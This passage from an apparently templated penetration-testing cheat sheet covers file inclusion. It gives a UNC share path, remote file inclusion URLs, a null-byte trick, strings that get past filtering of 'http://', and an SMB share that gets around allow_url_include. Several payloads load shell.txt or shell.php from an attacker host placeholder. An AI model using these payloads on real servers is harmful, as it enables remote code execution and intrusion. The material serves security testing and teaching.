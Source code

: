 ### Windows UNC Share [^unc-share]

Windows UNC shares can be injected
to redirect access to other resources.

```text
\\localhost\c$\windows\win.ini
```

## RFI

Most filter bypassing techniques for LFI
can be used for RFI.

### Basic RFI

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=http://{{< param "m.LDOMAIN" >}}/shell.txt
```

### Null Byte

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=http://{{< param "m.LDOMAIN" >}}/shell.txt%00
```

### Bypass `http(s)://` removal

```text
hhttp://thttp://thttp://phttp://:http://http:///http:///
hhttps://thttps://thttps://phttps://shttps://:https:///https:///https://
```

### Bypass `allow_url_include`

On Windows,
it is possible to bypass disabled `allow_url_include` and `allow_url_fopen`
by using `SMB`.
Simply including a script
located in an open share.

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=\\{{< param "m.LHOST" >}}\share\shell.php
```

## PHP Stream Wrappers

PHP provides many built-in wrappers
for various protocols,
to use with file functions
such as `fopen`, `copy`, `file_exists`,
and `filezise`.
[^php-wrappers]

### php://filter


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.